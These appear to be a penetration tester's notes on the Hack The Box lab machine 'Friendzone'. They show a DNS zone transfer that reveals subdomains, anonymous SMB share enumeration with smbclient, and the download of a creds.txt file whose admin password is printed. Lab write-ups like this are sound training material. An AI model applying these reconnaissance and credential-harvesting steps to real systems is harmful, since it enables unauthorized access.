 ```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Friendzone/smbmap$ host -l friendzone.red 10.10.10.123
Using domain server:
Name: 10.10.10.123
Address: 10.10.10.123#53
Aliases: 

friendzone.red has IPv6 address ::1
friendzone.red name server localhost.
friendzone.red has address 127.0.0.1
administrator1.friendzone.red has address 127.0.0.1
hr.friendzone.red has address 127.0.0.1
uploads.friendzone.red has address 127.0.0.1
--- or:
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Friendzone/smbmap$ host -t axfr friendzone.red 10.10.10.123
```

# Access

## SMB

* Can list all the shares:

```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Friendzone$ smbclient -L 10.10.10.123 -U ""
Enter WORKGROUP\'s password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

* got access to some share with creds for something? 

```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Friendzone$ smbclient -U "" //10.10.10.123/general
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Wed Jan 23 16:51:02 2019
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                9221460 blocks of size 1024. 6430508 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> ^C
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Friendzone$ cat creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```
